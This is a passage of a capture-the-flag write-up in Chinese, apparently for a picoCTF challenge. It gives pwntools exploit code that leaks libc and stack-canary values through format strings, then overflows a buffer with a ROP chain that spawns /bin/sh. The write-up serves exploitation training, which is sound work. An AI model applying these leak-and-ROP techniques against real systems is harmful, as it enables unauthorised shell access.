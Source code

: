     bin_sh_1 = 0x6e69622f
    bin_sh_2 = 0x68732f
    pop_eax_ret = 0x00024d37 + libc_addr
    pop_ebx_ret = 0x00018d05 + libc_addr
    pop_ecx_ret = 0x00193aa4 + libc_addr
    pop_edx_ret = 0x00001aae + libc_addr
    int_0x80 = 0x00002d3f + libc_addr

    ROP_payload = flat(
        pop_eax_ret, 0xb,
        pop_ebx_ret, (ebp_addr+0x8),
        pop_ecx_ret, 0,
        pop_edx_ret, 0,
        int_0x80,
        bin_sh_1, bin_sh_2
    )
    r.recvuntil(b'What number would you like to guess?\n')
    r.sendline(str(ans).encode())
    r.recvuntil(b'Name? ')
    r.sendline(b'a' * (0x200) + p32(canary_value) + b'a' * 0xc + ROP_payload)
    ```
## Exploit - ROP gadget / leak libc / leak Canary
這一題算是綜合蠻多stack vulnerability的技巧，所以過程蠻複雜的，但只要環境對了就很順利
```python=
from pwn import *
import random


if args.REMOTE:
    r = remote("jupiter.challenges.picoctf.org", 18263)
    ans = -3727
elif args.LOCAL:
    r = process("./V", env={"LD_PRELOAD" : "./libc-2.27.so"})
    # r = process('./vuln')
    # ans = -3615
    ans = -3727

'''#############
Find Libc address by stack info
#############'''
r.recvuntil(b'What number would you like to guess?\n')
r.sendline(str(ans).encode())
r.recvuntil(b'Name? ')
r.sendline(b"%147$p")
r.recvuntil(b"Congrats: 0x")
__libc_start_main = int(r.recvuntil(b"\n").strip().decode(), 16)
libc_addr = __libc_start_main - 0x018fa1
libc_system_addr = libc_addr + 0x03cf10
success(f"libc base address = {hex(libc_addr)}")
success(f"libc system address = {hex(libc_system_addr)}")
# raw_input()

'''#############
Find Canary Value
#############'''
r.recvuntil(b'What number would you like to guess?\n')
r.sendline(str(ans).encode())
r.recvuntil(b'Name? ')
r.sendline(b"%135$p")
r.recvuntil(b"Congrats: 0x")
canary_value = int(r.recvuntil(b"\n").strip().decode(), 16)
success(f"Canary Value = {hex(canary_value)}")
# raw_input()
```